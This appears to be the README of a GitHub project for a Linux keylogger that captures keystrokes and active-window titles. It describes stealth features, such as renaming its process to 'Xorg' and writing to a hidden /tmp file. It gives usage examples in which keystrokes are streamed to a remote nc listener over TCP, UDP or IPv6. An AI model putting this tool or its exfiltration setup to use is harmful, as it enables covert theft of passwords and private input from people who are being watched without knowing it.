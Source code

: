 # Simple_Local&Remote_Keylogger

##DESCRIPTION

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS
```
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLE

###`[TCP]`
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
###`[UDP]`
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
###`[IPv6]`
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
